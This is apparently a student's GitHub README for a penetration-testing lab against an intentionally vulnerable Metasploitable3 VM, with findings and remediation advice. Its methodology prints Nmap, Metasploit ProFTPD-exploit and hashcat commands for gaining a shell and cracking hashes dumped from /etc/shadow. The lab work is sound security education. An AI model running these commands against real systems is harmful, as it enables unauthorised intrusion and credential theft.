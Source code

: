 # 🔍 Penetration Testing & Vulnerability Assessment Lab (Metasploitable3)

## 📌 Overview
This project demonstrates a complete **penetration testing and vulnerability assessment** of a Metasploitable3 (Ubuntu) virtual machine, simulating a real-world attacker scenario using industry-standard tools like **Nmap**, **Nessus**, **Metasploit**, and **Hashcat**.

The goal was to identify, exploit, and assess password security, highlighting critical misconfigurations and offering actionable remediation steps.

> 💼 **Project Type**: Academic Group Project  
> 👩‍💻 **My Contribution**: Performed reconnaissance (Nmap), vulnerability scanning (Nessus), exploitation (Metasploit), and partial post-exploitation (Hash extraction with Hashcat).

---

## 🧰 Tools & Technologies Used

| Tool        | Purpose                                  |
|-------------|------------------------------------------|
| **Nmap**    | Network scanning & service enumeration   |
| **Nessus**  | Vulnerability scanning & impact analysis |
| **Metasploit** | Exploitation & post-exploitation      |
| **Hashcat** | Password hash cracking                   |
| **Kali Linux** | Attacking machine environment         |
| **Metasploitable 3 Ubuntu**  | Victim machine          |
| **VMware**  | Virtual lab setup                        |

---

## 🧪 Lab Setup

- **Target System**: Metasploitable3 (Ubuntu)
- **Attacking System**: Kali Linux (Latest)
- **Network Configuration**: NAT (Local test lab)
- Tools installed and configured on Kali with elevated permissions

---
## 📊 Summary of Key Findings
| Vulnerability                     | Severity | Affected Service          | Recommendation                              |
|----------------------------------|----------|----------------------------|----------------------------------------------|
| ProFTPD RCE (CVE-2015-3306)      | Critical | FTP                        | Update ProFTPD or switch to SFTP             |
| Drupal Coder Module RCE          | Critical | Web CMS                   | Patch Drupal modules                         |
| SQL Injection                    | High     | Drupal CMS                | Use parameterized queries                    |
| Weak SSL Ciphers (3DES)          | High     | TLS Service               | Enforce 128-bit or higher encryption         |
| Deprecated TLS Versions (1.0/1.1)| Medium   | TLS Service               | Upgrade to TLS 1.2+                          |
| Self-Signed/Untrusted Certificates | Medium | Apache HTTP               | Use certificates from a trusted CA           |
| Apache Directory Listing         | Medium   | Apache Web Server         | Disable MultiViews and tighten access rules  |


---

## 🧭 Methodology

1. **Reconnaissance & Scanning**  
   - Identified live hosts and open ports  
   - Enumerated services and operating systems

   ```bash
   sudo nmap -A -p 0-65535 192.168.X.X -o fullnmapscanmetasploitable3ubuntu.txt
   ```
   
2. **Vulnerability Scanning**  
   - Launched Nessus scan against Metasploitable3 VM  
   - Collected and prioritized vulnerability data by CVSS score

3. **Exploitation (Metasploit)**  
   - Gained shell access through known vulnerabilities (e.g., ProFTPD, Drupal RCE)
   - Conducted post-exploitation including file traversal and system info collection

   ```bash
   msfconsole
   use exploit/unix/ftp/proftpd_modcopy_exec
   set RHOST 192.168.X.X
   exploit
   ```

4. **Hash Extraction & Cracking**  
   - Dumped `/etc/passwd` and `/etc/shadow`
   - Combined and cracked hashes using **Hashcat**

   ```bash
   unshadow passwd shadow > combined.txt
   hashcat -m 1800 -a 0 combined.txt rockyou.txt
   ```

---

## 🎓 Lessons Learned

- Developed structured **penetration testing methodology**
- Mastered **multi-tool integration** (Nmap → Nessus → Metasploit → Hashcat)
- Understood how vulnerabilities map to **real-world exploits**
- Practiced secure lab testing and **responsible disclosure** formats
- Gained hands-on experience with **hash analysis and password policy flaws**

---

## ✅ Project Status

- ✅ Completed  
- 🗓️ Date: October 2025  
- 🔒 Confidentiality: Educational Use Only  

---

## ⚠️ Ethical Disclaimer

This project was conducted in a controlled lab using intentionally vulnerable machines for **learning and educational purposes only**. No real systems or unauthorized environments were targeted.
